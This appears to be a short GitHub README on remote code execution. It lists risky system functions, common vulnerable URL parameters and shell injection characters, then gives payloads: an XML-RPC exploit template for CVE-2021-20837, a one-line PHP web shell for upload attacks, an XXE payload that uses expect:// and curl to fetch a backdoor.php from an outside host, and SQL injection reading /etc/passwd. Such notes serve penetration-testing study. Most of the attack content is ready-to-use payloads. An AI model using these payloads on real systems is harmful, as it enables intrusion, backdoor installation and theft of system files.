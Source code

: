 # RCE-reserch
Article about RCE vulnerability
RCE (Remote Code Execution) vulnerability is the possibility of executing malicious code or controlling and executing code remotely. This vulnerability is related to a security failure in a software or system. By using RCE, an attacker can gain complete control over the victim's system and perform various operations, obtain all kinds of sensitive information, and in some cases, target other attacks on other components and related networks.
System functions can be the main cause of RCE vulnerability. System functions are functions that run at the operating system level and allow a software program to communicate with system-dependent kernel parts.

If these functions are used unprotected and improperly, they allow attackers to execute their malicious code at the system level and obtain the execution of command line commands or perform other malicious activities. In other words, these are entry points for RCE attacks.

Some well-known functions that can create RCE risk potential include:

    system()
    execute()
    evaluate()
    passthru()
    shell_exec()
    open()

Parameters that may have an rce vulnerability

    ?cmd=
    ?exec=
    ?command=
    ?execute=
    ?ping=
    ?query=
    ?jump=
    ?code=
    ?reg=
    ?do=
    ?func=
    ?arg=
    ?option=
    ?load=
    ?process=
    ?step=
    ?read=
    ?function=
    ?req=
    ?feature=
    ?exe=
    ?module=
    ?payload=
    ?run=
    ?print=

vulnrability 


characters to find rce

    $()
    ; or ;;
    & or &&
    | or ||
    $ or $$
    `payload` -> `cat /etc/passwd`

xml-rpc to rce

CVE-2021-20837 

    <?xml version="1.0" encoding="UTF-8"?>
    <methodCall> <methodName>mt.handler_to_coderef</methodName>
      <params>
        <param>
          <value>
            <base64>
            #{base64_cmd}
            </base64>
          </value>
        </param>
      </params>
    </methodCall>


File upload to RCE

    <?php echo shell_exec($_GET['e'].' 2>&1'); ?>

XXE to RCE 

    <?xml version="1.0" encoding="UTF-8"?>
     <!DOCTYPE root [
     <!ENTITY file SYSTEM "expect://curl$IFS-O$IFS'1.3.3.7:8000/backdoor.php'">
     ]>
     <root>
    <name>Joe</name>
    <tel>ufgh</tel>
    <email>START_&file;_END</email>
    <password>kjh</password>
    </root>

SQLI to RCE

    UNION SELECT load_file(' /etc/passwd ')    
